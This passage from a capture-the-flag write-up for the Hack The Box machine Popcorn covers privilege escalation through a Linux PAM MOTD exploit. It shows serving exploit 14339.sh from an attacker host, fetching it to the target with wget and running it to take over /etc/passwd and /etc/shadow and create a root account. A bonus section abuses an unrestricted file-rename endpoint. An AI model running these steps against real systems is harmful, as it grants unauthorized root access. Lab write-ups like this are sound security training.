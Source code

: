 Now we can grab the root flag from `/root/root.txt`

# Getting root (PAM MOTD)

If we look around in george's home directory we find `.cache/motd.legal-displayed` which is not something I'm not used to seeing. This file is empty, however if we check searchsploit using `searchsploit motd` it comes back with two Linux PAM 1.1.0 exploits for Ubuntu 9.10. Again we know we are on 9.10 by checking `cat /etc/issue` so this is a good sign. Looking at 14273.sh (`searchsploit -x linux/local/14273.sh`) it actually tells us that the updated script is `14339.sh` so we can move directly to that one.

Looking at 14339.sh we see that this script is going to make an .ssh key for our current user, take ownership of /etc/passwd and /etc/shadow, create the user toor with password toor, then clean itself up. If we check /etc/passwd ourselves we see that our current user, www-data, has a login shell, and we know we can write into the home directory of /var/www/ so this should work fine. We can save the script with `searchsploit -m linux/local/14339.sh`, host the file with `python3 -m http.server 80`, grab the file over on popcorn with `wget 10.10.14.22/14339.sh` and execute the file with `bash 14339.sh`. The script executes and tells us to type `toor` for root, so we do and we become root.

![](/images/HTB/Popcorn/motd_root.png)

Boom.


# Bonus - /rename

The renamer ended up being unnecessary to solve the machine, but the curious hacker in us tells us to poke at it anyway. 

![](/images/HTB/Popcorn/rename_syntax.png)

The instructions tell us to use index.php and pass it the values of the old filename and the new filename. If we set `filename=index.php` and  set `newfilename=test.php` we get a message saying "OK!". Sure enough when we navigate back to `/rename` we now have a directory listing instead of instantly loading the index.php file that no longer exists.
